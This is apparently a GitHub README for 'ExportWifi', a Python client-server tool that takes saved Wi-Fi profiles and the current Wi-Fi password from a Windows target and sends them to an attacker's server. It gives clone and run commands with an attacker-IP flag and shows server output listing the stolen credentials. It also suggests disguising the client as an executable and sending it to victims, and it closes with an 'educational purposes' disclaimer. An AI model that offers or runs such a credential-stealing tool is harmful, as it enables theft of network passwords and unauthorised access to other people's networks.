 ExportWifi
==========

Created by: Fawaz Bashiru

This a module which imports WI-FI files and detects the current WI-FI name and the current WI-FI password of the target. Every imported file is going to be saved in the directory where your server is located.

To install ExportWifi simply type:

`git clone https://github.com/Kill0geR/ExportWifi`

In your Terminal

HOW DOES ExportWifi WORK?
-------------------------
The ip address and the port number should be the same so the connection will work

TO FIND OUT YOUR IP-ADDRESS:
---------------------------

Linux: `ifconfig or ip a`

Windows: `ipconfig`

HOW TO USE ExportWifi?
---------------------
Change the directory

`cd ExportWifi`

Start "wifi.py" with

 `python wifi.py -aip 127.0.0.1`
 
 -aip stands for ip of attacker
 
 -cf stands for create file
 
 -ds stands for demon server and means to have the server in your directory
 
 -p stands for ports and displays the port of the attacker
 
 If you need help simply type:
 
 `python wifi.py -help`

Output of Server
---------------
````commandline
Waiting for connection....
Connection with ('127.0.0.1', 53343)

Connection has been established
6 Wifi files have been saved to your directory
The current WI-FI and Password of the target is 

WI-FI: ********* The Wi-Fi of the target will be here 
Password: ******* The password of the target will be here
````


Additional
----------
* You can send "client.py" as an exe file to the target with "auto-py-to-exe"

* ExportWifi is very easy to use.

* The server can be used for any OS. The target can only have a Windows OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.
